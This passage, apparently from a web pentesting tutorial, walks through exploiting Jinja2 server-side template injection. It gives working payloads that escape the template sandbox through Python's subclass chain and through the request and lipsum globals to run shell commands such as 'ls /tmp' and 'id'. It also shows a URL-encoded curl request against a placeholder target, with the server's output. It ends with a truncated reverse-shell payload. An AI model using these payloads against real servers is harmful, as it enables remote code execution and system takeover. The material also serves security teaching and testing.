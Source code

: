 Code kopieren

`{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('ls /tmp').read()}}`

Encoded for the curl request:

shell

Code kopieren

`curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%5B214%5D%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28%27ls%20%2Ftmp%27%29.read%28%29%7D%7D"`

**Response:**

html

Code kopieren

`test1 tmpv4tucw2b`

The response confirms that `test1` was created in the `/tmp` directory.

### Using Specific Functions for SSTI Exploitation

**Using `request` Function:**

python

Code kopieren

`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

**Using `lipsum` Function:**

python

Code kopieren

`{{lipsum.__globals__.os.popen('id').read()}}`

### Establishing a Reverse Shell

To establish a reverse shell, you can use a payload such as:

python

Code kopieren

`{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('python -c \'socket=__import__("so...`

This payload is truncated and needs to be completed with a proper reverse shell code.